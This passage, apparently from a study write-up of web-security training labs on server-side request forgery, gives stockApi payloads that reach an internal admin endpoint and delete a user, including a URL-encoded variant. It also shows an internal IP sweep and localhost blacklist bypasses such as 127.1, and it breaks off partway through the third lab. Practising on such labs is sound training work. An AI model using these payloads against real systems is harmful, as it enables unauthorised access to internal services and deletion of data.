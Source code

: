 # Server-side request forgery (SSRF)

### Lab: Basic SSRF against the local server

Task: Access admin portal and delete Carlos

Solution: `stockApi=http://localhost/admin/delete?username=carlos`

Solution (URL encoding): `stockApi=%68%74%74%70%3a%2f%2f%6c%6f%63%61%6c%68%6f%73%74%2f%61%64%6d%69%6e%2f%64%65%6c%65%74%65%3f%75%73%65%72%6e%61%6d%65%3d%63%61%72%6c%6f%73`

Explanation: Exploiting the SSRF vulnerability and accessing the administration dashboard on `http://localhost/admin/`, we realise that deleting members essentially makes use of a GET request. Hence, we can exploit the SSRF vulnerability to delete members without accessing the administration dashboard (directly making the GET request via browser would not work as we are not authenticated as administrator).

Notes:

- Can use URL encoders to encode your payload such as this [one](https://www.urlencoder.org/)

### Lab: Basic SSRF against another back-end system

Task: Access admin portal and delete Carlos

Strategy: Use Burp Intruder to find the IP.

Solution: `stockApi=http://192.168.0.45:8080/admin/delete?username=carlos`

Notes:

- Quickly generate payload using python, can use online compilers such as this [one](https://www.programiz.com/python-programming/online-compiler/)

  ```
  for i in range(256):
    print(i)
  ```

### Lab: SSRF with blacklist-based input filter

Task: Access admin portal and delete Carlos

Hints: There are 2 defenses, bypass them one at a time

First bypass: 

- Using `stockApi=http://localhost`, we encounter "External stock check blocked for security reasons"

- Using Burp Intruder and the payload obtained from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery), find the bypass with 127.1 or 127.0.1

Second Bypass:

- Using `stockApi=http://127.0.1/admin` we encounter "External stock check blocked for security reasons"
